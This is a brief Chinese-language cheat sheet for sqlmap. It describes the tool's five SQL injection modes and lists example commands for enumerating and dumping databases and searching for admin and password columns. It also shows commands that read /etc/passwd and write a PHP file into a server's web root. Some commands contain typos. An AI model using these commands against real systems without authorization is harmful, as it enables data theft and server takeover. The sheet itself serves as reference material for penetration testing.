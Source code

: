 # sqlmap

## 简介

### sqlmap支持五种不同的注入模式：

* 1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入
* 2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断
* 3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中
* 4、联合查询注入，可以使用union的情况下的注入
* 5、堆查询注入，可以同时执行多条语句的执行时的注入

## 常见用法

```
# 爆后端数据库, eg. mysql
sqlmap.py -u url --dbms                                       
sqlmap.py -u url  --dbms "后端数据库名" --dbs
# 爆数据库表
sqlmap.py -u url  --dbms "后端数据库名" --tables  
# 显示当前连接数据库名               
sqlmap.py -u url  --dbms "后端数据库名" --current-db   
# 列出数据库表中的表名          
sqlmap.py -u url --dbms "后端数据库名" --tables  -D "数据库名"   
# 列出数据库名中的表名内容                     
sqlmap.py -u url --dbms "后端数据库名" --columns  -T "表名" -D "数据库名"   
# 获取字段里面的内容           
sqlmap.py -u url --dbms "后端数据库名" --dump  -C "字段,字段"  -T "表名" -D "数据库名"
# dmup
sqlmap.py -u url --dbms "后端数据库名"--dump
# 搜索特定字段
sqlmap.py -u url --dbms "后端数据库名" -D "数据库名" -search -C admin,password

# referer 注入
sqlmap -u url --referer=1 --level 3 -p referer

# 改header
sqlmap --header="X-Forwarded-For: 127.0.0.1

# 改 host
sqlmap --host="localhost"

# 随机 User-Agent
sqlmap --random-agent

# file-read读取web文件
sqlmap -u url –file-read “/etc/passwd” -v 2

# file-write写入文件到web
sqlmap -u url –file-write /localhost/mm.php –file-dest /var/www/html/xx.php -v 2  
```
